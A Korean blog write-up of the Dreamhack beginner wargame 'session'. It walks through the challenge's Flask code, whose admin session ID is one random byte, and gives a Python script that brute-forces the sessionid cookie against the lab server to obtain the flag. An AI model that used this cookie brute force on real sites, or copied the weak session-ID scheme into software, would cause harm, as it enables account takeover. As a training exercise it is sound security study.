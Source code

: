 ```yaml
---
title: "🔒 (B) session"
date: 2025-08-08 00:00:00 +0900
categories: [Dreamhack, Wargame]
tags: [dreamhack, wargame, beginner, session, brute force, python]
published: true
password: "tjwjddltoddlf"
abstract: "해당글은 비밀글 입니다."
message: "비밀번호를 입력하세요."
---
```


## Dreamhack / Wargame

---

#### Difficulty Level : Beginner  
#### Title : session

---

![session1](/assets/img/dreamhack/2025-08-08-14-42-56.png)

우선 문제 vm을 생성하고 접속해봤다.

![session2](/assets/img/dreamhack/2025-08-08-14-43-39.png)

로그인 화면이 보인다.

개발자 도구를 열어보니,

![session3](/assets/img/dreamhack/2025-08-08-14-44-21.png)

기본 계정은 `guest / guest` 라고 한다.

이걸 입력해서 로그인을 해보니 다음과 같이 나왔다.

![session4](/assets/img/dreamhack/2025-08-08-14-44-59.png)

> Hello guest, you are not admin

개발자 도구에서 쿠키도 확인해보니

![session5](/assets/img/dreamhack/2025-08-08-15-10-21.png)

`sessionid` 라는 이름으로 쿠키를 관리하고 있는 것을 볼 수 있었다.

<br>

이후에도 분석을 해봤지만 얻을 수 있는 정보는 없었다.

다음으로 문제에서 제공한 소스 코드를 읽어 봤다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'user': 'user1234',
    'admin': FLAG
}

session_storage = {
}

@app.route('/')
def index():
    session_id = request.cookies.get('sessionid', None)
    try:
        username = session_storage[session_id]
    except KeyError:
        return render_template('index.html')

    return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            session_id = os.urandom(4).hex()
            session_storage[session_id] = username
            resp.set_cookie('sessionid', session_id)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

<br>

여기서 눈여겨 봐야할 부분은 바로 맨 마지막 코드 부분이다.

```python
if __name__ == '__main__':
    import os
    session_storage[os.urandom(1).hex()] = 'admin'
    print(session_storage)
    app.run(host='0.0.0.0', port=8000)
```

`session_storage[key] = 'value'`
- session_storage는 딕셔너리 형태이다. (서버 메모리 세션 DB)
    - key : Session ID
    - value : username

`os.urandom(1)`
- 운영체제 레벨의 암호학적 난수 바이트를 1바이트(8비트) 뽑음
    - 뽑힐 수 있는 값(16진수로 각각 4비트씩 차지) : 00 ~ FF => **256가지**

`hex()`
- 바이트 열을 16진수 문자열로 변환. 
    - ex. b"\x07" -> "07"

`login` 라우트 부분에서 세션 쿠키를 설정할 때 **4바이트 난수**를 사용하지만,  
여기서는 admin 세션 생성에 **1바이트**을 사용하는 것을 볼 수 있다.

정리하면,
서버가 시작될 때 무작위 2자리 16진수 문자열을 session ID로 하여 관리자 계정 세션을 미리 등록한다.
따라서 클라이언트가 이 값을 알아내면, sessionid 쿠키 값을 해당 문자열로 바꾸는 것만으로 admin 권한을 획득할 수 있을 것이다.

<br>

키 공간(경우의 수)는 256개 뿐이기에 Brute Force를 통해 충분히 탈취해볼만 하다.

sessionid 값을 00~ff 까지 바꿔가며 요청을 보내보고,  
"flag is" 라는 값이 나오면 화면에 출력되도록 스크립트를 작성해보자.
("flag is"라는 포멧은 '/' 라우트에서 확인할 수 있었음)

<br>

### 작성한 소스코드 (Python)

(pip 를 이용해 requests 모듈을 미리 설치해주어야 함)

```python
import requests

url = "http://host8.dreamhack.games:20075/"
for i in range(256):
    sessionid = f"{i:02x}"
    r = requests.get(url, cookies={"sessionid": sessionid})
    if "flag is" in r.text:
        print("admin sessionid:", sessionid)
        print(r.text)
        break
```
(bruteForce.py)

실행하면?

`python3 bruteForce.py`

![session6](/assets/img/dreamhack/2025-08-08-15-39-07.png)

admin으로 로그인되면서 플래그를 얻을 수 있게 된다.

<br>

flag : ~~DH{73b3a0ebf47fd6f68ce623853c1d4f138ad91712}~~



